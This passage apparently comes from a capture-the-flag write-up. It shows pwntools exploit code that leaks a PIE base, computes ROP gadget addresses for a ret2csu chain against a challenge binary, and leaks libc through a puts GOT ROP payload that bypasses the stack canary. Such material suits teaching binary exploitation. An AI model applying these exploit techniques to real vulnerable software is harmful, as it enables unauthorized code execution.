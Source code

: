 What i have to do next is leaking PIE, i use the same technique the only difference is the amoung of char that i'm using
```python
payload = flat(
    b'y' * 25
)

p.recvuntil(b'Do you like ctf?')
p.sendline(payload)

leak = u64(p.recvuntil(b'Can you provide some extra feedback?').split(b'\n')[2].ljust(8, b'\x00')) # sometimes 1, 2
piebase = leak - 0x0000000000001447
win = piebase + elf.symbols.win
info("leak: %#x", leak)
info("pie: %#x", piebase)
info("win: %#x", win)

ret = piebase + 0x000000000000101a # or piebase + (rop.find_gadget(['ret']))[0] but need to set rop = ROP(exe)
rdi = piebase + 0x00000000000014d3 # or piebase + (rop.find_gadget(['pop rdi', 'ret']))[0]
rsi = piebase + 0x00000000000014d1 # # or piebase + (rop.find_gadget(['pop rsi', 'pop r15', 'ret']))[0]

popper = piebase + 0x14ca
caller = piebase + 0x14b0
```
Consider the intended solution was ret2csu so i need to calculate some gadgets, rdi, rsi, popper, caller was some mandatory gadgets to do that, you can
search the gadget with `ropper` or `ROPgadget` even pwntools.

So actually we completed the exploit and we just have to send the final ret2csu payload to trigger the win function, but you can also solve this challenge with ret2libc you need toleak the libc address first, here's how.
```python
payload = flat(
    b'y' * 10,
    canary,
    b'\x90'*8,
    rdi,
    piebase + elf.got.puts,
    piebase + elf.symbols.puts,
    piebase + elf.symbols.main
)
p.sendline(payload)

leak = u64(p.recvuntil(b'Do you want to complete a survey?').split(b'\n')[1].ljust(8, b'\x00'))
libc.address = leak - libc.symbols.puts
info("leak: %#x", leak)
info("leak: %#x", libc.address)

# rop = ROP(libc)
rdx = libc.address + 0x000000000011f497 # (rop.find_gadget(['pop rdx']))[0]
```
So we able to leak libc and restart the program back to main, awesome.
